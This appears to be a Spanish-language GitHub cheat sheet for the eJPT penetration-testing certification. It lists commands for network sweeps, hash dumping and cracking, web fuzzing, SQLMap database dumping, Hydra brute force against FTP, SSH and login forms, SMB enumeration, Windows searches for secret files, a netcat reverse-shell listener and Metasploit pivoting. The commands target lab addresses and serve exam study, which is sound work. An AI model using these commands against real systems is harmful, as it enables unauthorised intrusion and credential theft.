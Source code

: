 # eJPT-Cheatsheet
Todos los comandos necesarios para aprobar el eJPT

Recursos que te pueden interesar:
[eJPT - Review](https://hacknotes.github.io/certificaciones/eJPTReview/) [Aprobar el eJPT a la primera](https://hacknotes.github.io/certificaciones/eJPTAprove/)
# Barrido de ping - Ping sweep
## Nmap
```sql
nmap -sn 10.10.10.0/24
```
## fping
```sql
fping -a -g 10.10.10.0/24 2>/dev/null
```
# Password cracking
## John
```python
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
## Online Tools
[CrackStation](https://crackstation.net/)
# Dump Hashes
## unshadow 
```sql
unshadow passwd shadow > hashes.txt
```
# Fuzzing
## Nmap
```python
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
```
## wfuzz
```python
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```
## dirb
```sql
dirb http://10.10.15.12
```
## gobuster
```sql
gobuster dir -u 10.10.14.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```
# SQLMap
```sql
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```
# Hydra
```sql
hydra -v -l admin -P passlist.txt ftp://192.168.0.1
hydra -v -L userlist.txt -P passlist.txt ftp://192.168.0.1
hydra -v -l root -P passwords.txt -t 1 -u 10.10.14.10 ssh
hydra http://10.10.14.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect" -L userlist.txt -P passwordslist.txt
```
# XSS
```sql
<script>alert(xss)</script>
<h1>H1</h1>
```
# SMB
## Enumeración de SMB
```python
smbclient -L 10.10.14.12 -N
smbmap -H 10.10.14.12 -u 'null'
nmap --script=smb-vuln* -p445 10.10.14.15 -oN smbScan
smbmap -H 10.10.14.15 -R backups -u 'null'
```
## Acceso al recurso compartido **backups**
```sql
smbclient //10.10.14.15/backups
```
# FTP
## Enumeración de FTP
```python
nmap --script=ftp-anon -p21 10.10.14.12
ftp 10.10.14.12
cd ..
```
## FTP - Fuerza Bruta
```sql
hydra -l admin -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.1
```
# Enumeración de windows
```sql
dir /b/s "\*.conf*"
dir /b/s "\*.txt*"
dir /b/s "\*secret*"
route print
netstat -r
fsutil fsinfo drives
wmic logicaldisk get Caption,Description,providername
```
# Reverse Shell
## nc
```sql
nc -nlvp 443
```
## metasploit
```sql
msfconsole
```
# Post Explotación
## Pivoting
### Ip Route
```sql
ip route add 10.10.16.0/24 via 10.10.16.1 dev tap0
```
### Metasploit
```sql
run autoroute -s 10.10.16.0/24
```
## Wireshark
```sql
ip.addr==192.168.12
ip.src == 192.168.2.11
ip.dst == 192.168.2.15
```
